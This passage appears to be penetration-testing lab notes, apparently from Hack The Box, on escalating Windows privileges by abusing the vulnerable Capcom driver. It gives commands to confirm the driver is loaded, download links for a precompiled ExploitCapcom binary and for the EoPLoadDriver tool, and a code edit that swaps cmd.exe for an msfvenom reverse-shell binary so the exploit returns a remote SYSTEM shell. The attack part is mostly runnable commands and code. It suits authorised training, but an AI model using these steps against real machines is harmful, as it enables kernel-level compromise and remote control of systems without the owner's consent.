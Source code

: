   - Verify Capcom Driver is Listed:
```powershell
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

 **Exploit**
 
  - Download Exploit:
```sh
https://github.com/musheebat/Compiled-capcom-exploit/blob/main/ExploitCapcom.exe
https://github.com/tandasat/ExploitCapcom
```

   - Use ExploitCapcom : 
```powershell
PS C:\htb> .\ExploitCapcom.exe
```

**Alternate Exploitation - No GUI **

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

The `CommandLine` string in this example would be changed to:

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

**Automating the Steps**

We can use a tool such as EoPLoadDriver to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following

   - Download EoPLoadDriver : 
```cmd
wget https://github.com/TarlogicSecurity/EoPLoadDriver/
```
